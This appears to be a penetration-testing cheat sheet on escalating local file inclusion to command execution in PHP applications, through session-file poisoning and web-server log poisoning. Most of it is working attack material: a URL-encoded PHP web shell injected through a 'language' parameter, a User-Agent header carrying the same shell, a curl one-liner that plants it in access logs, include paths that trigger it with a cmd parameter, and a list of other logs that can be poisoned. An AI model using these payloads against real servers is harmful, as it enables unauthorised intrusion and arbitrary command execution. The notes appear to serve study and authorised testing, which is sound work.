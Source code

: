 
### PHP Session Poisoning

PHPSESSION cookie information is stored in session files on the back-end, /var/lib/php/sessions/ on Linux and in C:\Windows\Temp\ on Windows.

The name of the file that contains our user's data matches the name of our PHPSESSID cookie with the sess_ prefix.

1) First thing is to grab the PHSESSION id.

2) Poison the vulnerable input with a URL encoded PHP reverse shell:

```
/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

3) Then poison the log with whatever command you want in the session log:

```
/index.php?language=/var/lib/php/sessions/sess_<PHPSESSION ID>&cmd=id
```

Will have to rerun the poison for additional runs.


### Server Log Poisoning

The poisoning will come through the User-Agent header since we can control it.

Logs are stored in access.log or error.log

By default, Apache logs are located in /var/log/apache2/ on Linux and in C:\xampp\apache\logs\ on Windows, while Nginx logs are located in /var/log/nginx/ on Linux and in C:\nginx\log\ on Windows. However, the logs may be in a different location in some cases, so we may use an LFI Wordlist to fuzz for their locations.

1) User burp to change the User-Agent to a php shell

```http
User-Agent: <?php system($_GET['cmd']); ?>
```

Log Poisoning can also be done via curl

```cli
curl -s "http://SERVER_IP:PORT/index.php" -A "<?php system($_GET['cmd']); ?>"
```

With either manual change or curl, cmd execution is available at the log.

```
/var/log/apache2/access.log&cmd=i
```

 Other logs that can be poisoned:

```
/var/log/sshd.log

/var/log/mail

/var/log/vsftpd.log
```
